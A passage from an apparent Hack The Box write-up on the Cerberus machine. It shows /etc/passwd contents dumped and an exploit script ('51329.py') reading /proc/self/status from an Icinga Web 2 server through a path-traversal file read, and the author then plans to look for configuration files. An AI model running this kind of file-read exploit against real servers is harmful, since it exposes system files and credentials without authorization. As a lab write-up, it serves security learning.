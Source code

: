 ```bash
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
usbmux:x:107:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
matthew:x:1000:1000:matthew:/home/matthew:/bin/bash
ntp:x:108:113::/nonexistent:/usr/sbin/nologin
sssd:x:109:115:SSSD system user,,,:/var/lib/sss:/usr/sbin/nologin
nagios:x:110:118::/var/lib/nagios:/usr/sbin/nologin
redis:x:111:119::/var/lib/redis:/usr/sbin/nologin
mysql:x:112:120:MySQL Server,,,:/nonexistent:/bin/false
icingadb:x:999:999::/etc/icingadb:/sbin/nologin


┌──(kali㉿kali)-[~/htb]
└─$ python 51329.py http://icinga.cerberus.local:8080/icingaweb2 /proc/self/status
Name:   php-fpm7.4
Umask:  0022
State:  R (running)
Tgid:   964
Ngid:   0
Pid:    964
PPid:   625
TracerPid:      0
Uid:    33      33      33      33
Gid:    33      33      33      33
```

Given the `uid` from `/proc/self/status`, I think I have a permission of `www-data` to read files.
Since I don't have any clue for now, let's investigate the repository and project site.

git repo : https://github.com/Icinga/icingaweb2
official site : https://icinga.com/docs/icinga-web/latest/

On its official site, I found some useful files on "Configuration" tab.
